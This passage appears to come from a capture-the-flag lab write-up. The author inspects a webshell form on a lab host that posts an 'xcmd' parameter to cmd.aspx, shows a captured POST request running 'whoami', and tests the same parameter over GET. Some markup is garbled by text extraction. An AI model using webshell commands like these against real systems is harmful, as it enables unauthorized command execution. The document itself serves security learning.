 Typing "whoami" into the field and hitting enter returns an error:

![](/img/image-20220405084744959.png)

Looking for closely at the previous page source, it's super simple:



    .md>
    <body>

    <form action="cmd.aspx" method=POST>
    <p>Enter your shell command: <input type=text name=xcmd size=40> </form> </body> <.md>



The `action` is a POST to `cmd.aspx`, and since the full path isn't
given, that targets `http://10.10.10.57:62696/cmd.aspx`, which doesn't
exist. It's also sending a parameter named `xcmd`. I can see this in my
failed request in Burp as well:



    POST /cmd.aspx HTTP/1.1
    Host: 10.10.10.57:62696
    User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:98.0) Gecko/20100101 Firefox/98.0
    Accept: text.md,application/.md+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: http://10.10.10.57:62696/
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 11
    Connection: close
    Cookie: ASPSESSIONIDACQBQRTB=GEFBPLMBLIENILKPDIEMHAFA; ASPSESSIONIDCCSDSSRA=LKPPKPACGFAOPJNAIOFNFBOD; ASPSESSIONIDAASCSSQA=FECBOJBCDDJHILMFPBADGLND
    Upgrade-Insecure-Requests: 1

    xcmd=whoami



I can hope that this webshell accepts GET requests as well as post
requests and put the parameter in the URL, and it works, kind of:

![](/img/image-20220405113553751.png)

